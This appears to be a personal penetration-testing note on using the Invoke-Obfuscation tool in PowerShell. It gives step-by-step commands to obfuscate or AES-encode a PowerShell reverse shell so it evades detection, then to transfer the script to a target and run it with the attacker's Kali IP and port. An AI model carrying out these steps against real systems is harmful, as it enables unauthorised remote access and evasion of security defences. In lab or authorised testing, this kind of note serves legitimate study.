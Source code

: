 ```
git clone https://github.com/danielbohannon/Invoke-Obfuscation
```

Download if need to:  https://github.com/PowerShell/PowerShell

run PowerShell in attack box
```
pwsh
```

```
cd ./Invoke-Obfuscation/
```

```
Import-Module ./Invoke-Obfuscation.psd1
```

```
Invoke-Obfuscation
```

```
SET SCRIPTPATH /home/kali/Desktop/shell.ps1
```

```
AST
```

```
ALL
```

```
1
```

Copy the output to a new ps1 file.

Transfer to target and run.

[[10._TOOLS/Python#Server]]


Another good option to try is:

```
Invoke-Obfuscation
```

Generate a PowerShell reverse shell from anywhere [[1._Reverse Shells (WIN)#]]

Be sure beginning start with $client.... and remove outside quotes if present.  Place in your Kali IP and port.

First, set the script path.

```
SET SCRIPTPATH /home/kali/Desktop/shell.ps1
```

Encode the script.

```
ENCODING
```

SecureString (AES) supposedly works really well.

Copy the output to a new ps1 file.

Transfer to target and run.

[[10._TOOLS/Python#Server]]
